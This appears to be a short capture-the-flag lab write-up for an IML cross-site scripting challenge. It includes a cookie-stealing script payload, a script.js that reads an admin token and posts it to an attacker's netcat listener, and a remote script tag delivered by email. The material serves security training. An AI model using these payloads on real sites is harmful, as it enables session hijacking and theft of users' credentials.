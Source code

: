 ```yaml
---
date: 2025-04-27
categories: [CTF, IML]
title: "IML - Cross-Site Scripting: Ep.6 – Further Exploitation"
tags: ['privilege escalation', 'python', 'rce']

description: "Cross-Site Scripting Ep.6 – F - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.6 – Further Exploitation


![image1](../resources/81e9facdcd524216bd9db80ea0e500c3.png)

```java
<script>document.location="http://10.102.179.231:8000/?cookie="+document.cookie;</script>
```

![image2](../resources/3e99d7ccbbe9401894e1e7828e79bdfa.png)

- **<u>Token and username received</u>**


![image3](../resources/c892c30a412a46f3948a7fcd73b39bc4.png)

- Create script (script.js)


![image4](../resources/014019cde821452b93fe0722e5ff82f9.png)

```javascript
var sensitive_data = new XMLHttpRequest();
sensitive_data.open("GET", "/admin/token", true);
sensitive_data.responseType = "text";

sensitive_data.onload = () => {
    if (sensitive_data.status >= 200 && sensitive_data.status < 400) {
        var body = sensitive_data.responseText;
        var send_data = new XMLHttpRequest();
        send_data.open("POST", "http://<IP>:<KALI_NC_PORT>", true);
        send_data.send("page_body=" + body);
    } else {
        // do nothing
    }
};

sensitive_data.send();

```


- Change IP and Port

- Run Python server in same dir as script


![image5](../resources/523d0853f9204c1ba8a55cdd0cdfba1f.png)

- Set up nc listener on port specified in script


![image6](../resources/6b72b2076e2340fd8b4c74640bacaccd.png)

- Send email with the src tag (kali IP and the Port of the python server)


![image7](../resources/0f50e13dc0e248338bfe7cca969c95b5.png)

```javascript
<script src="http://<kali IP>:<kali port>/script.js"></script>
```

- *Sometimes need to reset the machine on this one cus it doesn’t work first time*


![image8](../resources/87e5d6bb27ac4008ab946805aca5235a.png)